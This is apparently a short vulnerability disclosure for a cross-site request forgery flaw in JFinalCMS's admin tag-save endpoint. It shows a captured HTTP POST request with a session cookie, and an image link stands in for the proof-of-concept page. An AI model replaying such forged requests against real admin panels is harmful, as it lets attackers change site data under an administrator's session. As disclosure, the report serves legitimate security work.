 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/jwillber/JFinalCMS

**Software:**

https://github.com/jwillber/JFinalCMS

    Let's construct the packet first, we create a tag, and capture the packet.

```http
POST /admin/tag/save HTTP/1.1
Host: 192.168.113.43:8888
Content-Length: 9
Cache-Control: max-age=0
Origin: http://192.168.113.43:8888
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.113.43:8888/admin/tag/add
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=807D599B9C63E998E02431A4EEDB2C7C
Connection: close

name=CSRF
```

​	A POC that constructs a CSRF is used to simulate that the administrator is under a CSRF attack.

![image-20241203193127386](img/image-20241203193127386.png)

​	Successfully implemented CSRF attacks